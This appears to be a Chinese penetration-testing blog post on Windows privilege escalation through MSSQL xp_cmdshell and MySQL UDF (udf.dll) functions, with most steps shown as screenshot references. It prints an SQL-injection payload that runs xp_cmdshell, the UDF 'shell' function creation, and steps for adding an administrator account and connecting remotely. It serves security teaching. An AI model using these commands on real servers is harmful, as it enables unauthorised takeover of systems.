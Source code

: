 +++
date = "2016-08-07T23:38:58+08:00"
description = ""
draft = false
tags = ["windows", "数据库", "提权"]
title = "Windows下第三方服务提权"
topics = ["Pentest"]

+++

<center><h2>MSSQL和MySQL提权</h2></center>
## MSSQL提权
> MSSQL运行在system权限时才可以通过xp_cmdshell组件执行系统命令提权  
提权条件：数据库账号是DBA权限

#### 关于xp_cmdshell
* 得到数据库连接信息，连接数据库后执行EXEC xp_cmdshell 'net user';
* 有sql注入时也可以直接在url上使用xp_cmdshell，因为mssql可以多语句执行，例如?id=1;EXEC xp_cmdshell 'net user';\-\-

#### 连接数据库
> {{% fluid_img src="/img/post/privilge_escalation_win_find_sql_conn_msg.png" alt="Windows下第三方服务提权-找数据库连接信息" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_conn_mssql.png" alt="Windows下第三方服务提权-连接mssql数据库" %}}

#### 执行系统命令
> {{% fluid_img src="/img/post/privilge_escalation_win_try_exec_sys_command.png" alt="Windows下第三方服务提权-尝试用xp_cmdshell执行命令" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_open_cmd_shell.png" alt="Windows下第三方服务提权-开启xp_cmdshell组件" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_exec_sys_command_success.png" alt="Windows下第三方服务提权-使用xp_cmdshell成功执行命令" %}}

#### 添加用户
> {{% fluid_img src="/img/post/privilge_escalation_win_add_user.png" alt="Windows下第三方服务提权-添加用户" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_view_user.png" alt="Windows下第三方服务提权-查看添加的用户" %}}

#### 远程连接
> {{% fluid_img src="/img/post/privilge_escalation_win_remote_conn.png" alt="Windows下第三方服务提权-远程连接" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_input_u_p.png" alt="Windows下第三方服务提权-输入用户名和密码" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_remote_connection_view_ip.png" alt="Windows下第三方服务提权-输入用户名和密码" %}}

<br /><br />

## MySQL提权
> 环境：web应用服务器权限较低  
提权条件：MySQL是system权限

#### 关于UDF
> MySQL提权可以用UDF和Mof。UDF就是User defined Function，即用户定义函数，可以通过创建存储方法来定义函数，从而调用系统命令。

#### UDF提权过程
* 导入udf.dll到服务器指定目录  
	* MySQL版本小于5.1的udf.dll要导入到c:\windows\目录下  
	* MySQL版本大于等于5.1的udf.dll要导入到plugin_dir目录，plugin_dir在MySQL安装目录下的lib/plugin目录下(MySQL安装目录可以用select @@basedir得到)，默认不存在这个目录，我们要自己创建
* 使用SQL语句创建功能函数  
	CREATE FUNCTION shell RETURNS STRING SONAME 'udf.dll';
* 执行MySQL语句调用新创建的函数  
	select shell('cmd','whoami');
* 删除创建的函数  
	drop function shell;

#### 查看基本信息
> {{% fluid_img src="/img/post/privilge_escalation_win_view_base_msg.png" alt="Windows下第三方服务提权-查看基本信息" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_view_current_user.png" alt="Windows下第三方服务提权-查看当前用户" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_view_current_user_permissions.png" alt="Windows下第三方服务提权-查看当前用户权限" %}}

#### 上传udf提权
> {{% fluid_img src="/img/post/privilge_escalation_win_upload_udf.png" alt="Windows下第三方服务提权-上传udf" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_conn_mysql.png" alt="Windows下第三方服务提权-连接数据库" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_export_udf.png" alt="Windows下第三方服务提权-导出udf.dll并生成函数" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_exec_whoami.png" alt="Windows下第三方服务提权-提权成功执行whoami" %}}

#### 添加用户
> {{% fluid_img src="/img/post/privilge_escalation_win_shell_add_user.png" alt="Windows下第三方服务提权-通过shell函数添加用户" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_shell_add_user_to_administrators.png" alt="Windows下第三方服务提权-通过shell函数添加用户到管理员组" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_shell_active_user.png" alt="Windows下第三方服务提权-通过shell函数激活用户" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_shell_view_user.png" alt="Windows下第三方服务提权-通过shell函数查看用户" %}}

#### 远程连接
> {{% fluid_img src="/img/post/privilge_escalation_win_shell_remote_connection.png" alt="Windows下第三方服务提权-远程3389连接" %}}